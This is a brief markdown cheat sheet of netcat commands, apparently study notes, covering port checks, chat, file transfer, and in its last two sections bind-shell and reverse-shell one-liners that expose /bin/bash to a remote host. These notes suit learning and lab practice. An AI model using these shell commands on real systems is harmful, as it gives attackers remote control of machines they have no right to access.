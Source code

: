 # Netcat

## Is Open Port

```bash
nc -v huakunshen.com 80
nc -nv 192.168.1.66 80		# -n for skipping DNS name resolution
```

## Chat
```bash
nc -nlvp 4444				# machine 1: listening on port 4444
nc -nv 192.168.1.63 4444	# machine 2: connect to machine 1
```


## File Transfer

```bash
nc -nlvp 4444 > incoming.exe		# listening for data and pipe to a file
nc -nv 192.168.1.63 4444 < wget.exe
```


## Bind Shell

```bash
nc -nlvp 4444 -e /bin/bash			# listening for connection, whoever connected get my shell
nc -nv 192.168.105.128 4444			# connect and use the given shell		
```


## Reverse Shell
> bypass firewall if firewall doesn't allow output flow
```bash
nc -nlvp 4444								# waiting for a reverse shell
nc -nv 192.168.1.63 4444 -e /bin/bash		# send my shell
```